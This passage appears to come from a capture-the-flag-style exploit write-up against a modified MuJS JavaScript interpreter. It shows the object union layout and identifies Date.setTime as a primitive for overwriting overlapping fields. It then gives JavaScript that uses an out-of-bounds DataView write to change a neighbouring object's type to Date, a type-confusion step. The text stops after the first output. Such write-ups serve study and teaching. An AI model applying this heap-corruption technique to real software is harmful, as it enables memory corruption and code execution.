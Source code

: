 ```c
			const char *name;
			js_CFunction function;
			js_CFunction constructor;
			int length;
			void *data;
			js_Finalize finalize;
		} c;
		js_Regexp r;
		struct {
			js_Object *target;
			js_Iterator *head;
		} iter;
		struct {
			const char *tag;
			void *data;
			js_HasProperty has;
			js_Put put;
			js_Delete delete;
			js_Finalize finalize;
		} user;
		struct {
		    uint32_t length;
		    uint8_t* data;
		} dataview;
	} u;
// ...
};
```
Here for example `js_Object.u.dataview.length` is stored at the same offset as `js_Object.u.number` and `js_Object.u.c.name`. 

So for overwriting `u.number` I found this: 
```c
static void js_setdate(js_State *J, int idx, double t)
{
	js_Object *self = js_toobject(J, idx);
	if (self->type != JS_CDATE)
		js_typeerror(J, "not a date");
	self->u.number = TimeClip(t);
	js_pushnumber(J, self->u.number);
}
// ... called from here
static void Dp_setTime(js_State *J)
{
	js_setdate(J, 0, js_tonumber(J, 1));
}
```
Let's try!

`JS_CDATE` value is 10 so we need to set `type` to 10 get `Date` object.
```js
b = DataView(0x68);
a = DataView(0x48);
b = DataView(0x48);
c = DataView(0x48);


print(c)
b.setUint8(0x48+8, 10); // set type of c to Date
print(c)
c.setTime(0)
```
Result:
```
[object DataView]
```